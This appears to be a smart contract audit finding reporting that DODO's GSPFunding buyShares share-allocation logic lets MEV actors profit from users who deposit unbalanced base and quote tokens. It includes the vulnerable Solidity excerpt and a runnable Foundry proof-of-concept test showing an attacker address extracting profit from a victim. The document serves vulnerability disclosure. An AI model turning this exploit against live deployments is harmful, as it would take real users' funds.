 Harsh Tangerine Ram

high

# GSPFunding contract can be sandwiched by MEV to steal funds

## Summary

Due to share allocation problem, the GSPFunding contract can be sandwiched by MEV to steal users's funds if victim buy shares with base token much more than quote token.


## Vulnerability Detail

When users buy shares in normal case after the first buy shares, the share allocation is showed below:

```solidity
    else if (baseReserve > 0 && quoteReserve > 0) {
        // case 2. normal case
        uint256 baseInputRatio = DecimalMath.divFloor(baseInput, baseReserve);
        uint256 quoteInputRatio = DecimalMath.divFloor(quoteInput, quoteReserve);
        uint256 mintRatio = quoteInputRatio < baseInputRatio ? quoteInputRatio : baseInputRatio;
        // The shares will be minted to user
        shares = DecimalMath.mulFloor(totalSupply, mintRatio);

        // The target will be updated
        _BASE_TARGET_ = uint112(uint256(_BASE_TARGET_) + (DecimalMath.mulFloor(uint256(_BASE_TARGET_), mintRatio)));
        _QUOTE_TARGET_ = uint112(uint256(_QUOTE_TARGET_) + (DecimalMath.mulFloor(uint256(_QUOTE_TARGET_), mintRatio)));
    }
    // The shares will be minted to user
    // The reserve will be updated
    _mint(to, shares);
```

It uses the lesser of quoteInputRatio and baseInputRatio. So if the quoteInputRatio is less than baseInputRatio, the mintRatio will be quoteInputRatio. The mintRatio is used to calculate the shares to be minted to user and the target to be updated. In case some users transfer to GSP with base token much more quote token, the users get less shares than he should, MEV can monitor the `buyShares` tx, once the tx satisfy the conditions, the users can be sandwiched by malicious MEV to steal funds.

Runnable PoC shows below, inserting the case to `test/GSPFunding.t.sol`:

```solidity
function test_buyShares_mev() public {
    vm.startPrank(USER);
    dai.transfer(address(gsp), BASE_RESERVE);
    usdc.transfer(address(gsp), QUOTE_RESERVE);
    assertEq(gsp.totalSupply(), 0);
    gsp.buyShares(USER);
    assertTrue(gsp._BASE_RESERVE_() == BASE_RESERVE);
    assertTrue(gsp._QUOTE_RESERVE_() == QUOTE_RESERVE);
    assertGt(gsp.totalSupply(), 0);
    vm.stopPrank();

    // 1. mev buy shares with BASE_INPUT and QUOTE_INPUT
    address mev = vm.addr(0x1111);
    vm.startPrank(mev);
    deal(DAI, mev, BASE_INPUT);
    deal(USDC, mev, QUOTE_INPUT);
    dai.transfer(address(gsp), BASE_INPUT);
    usdc.transfer(address(gsp), QUOTE_INPUT);
    (uint256 shares_01,,) = gsp.buyShares(mev);
    console.log("shares_01: %s", shares_01);
    vm.stopPrank();

    // 2. victim buy shares with many base token and little quote token
    address victim = vm.addr(0x1234);
    vm.startPrank(victim);
    deal(DAI, victim, 10000 * 1e18);
    uint256 victim_usdc = 1 * 1e6;
    deal(USDC, victim, 10000 * 1e6);
    dai.transfer(address(gsp), 10000 * 1e18);
    usdc.transfer(address(gsp), victim_usdc);
    (uint256 shares_02, , ) = gsp.buyShares(victim);
    console.log("shares_02: %s", shares_02);
    vm.stopPrank();
    assertGt(shares_01, shares_02);

    // 4. mev get profit after he sell all his shares
    vm.startPrank(mev);
    gsp.sellShares(shares_01, mev, 0, 0, "", block.timestamp);
    uint256 dai_profit = (dai.balanceOf(mev) - BASE_INPUT) / 1e18;
    uint256 usdc_profit = (QUOTE_INPUT - usdc.balanceOf(mev)) / 1e6;
    uint256 total_profit = dai_profit - usdc_profit;
    assertGt(total_profit, 0);
    console.log("total profit: ", total_profit);
    vm.stopPrank();
}
```

Results:
```ts
[PASS] test_buyShares_mev() (gas: 933616)
Logs:
  shares_01: 1000000000000000000
  shares_02: 916666666666666663
  total profit:  839
```

## Impact

Innocent users can be sandwiched by MEV to steal funds.

## Code Snippet

https://github.com/sherlock-audit/2023-12-dodo-gsp/blob/af43d39f6a89e5084843e196fc0185abffe6304d/dodo-gassaving-pool/contracts/GasSavingPool/impl/GSPFunding.sol#L67-L71

## Tool used

vscode, Manual Review

## Recommendation

Change the shares allocation algorithm, one solution is get the average of quoteInputRatio and baseInputRatio to decide the shares to be minted.
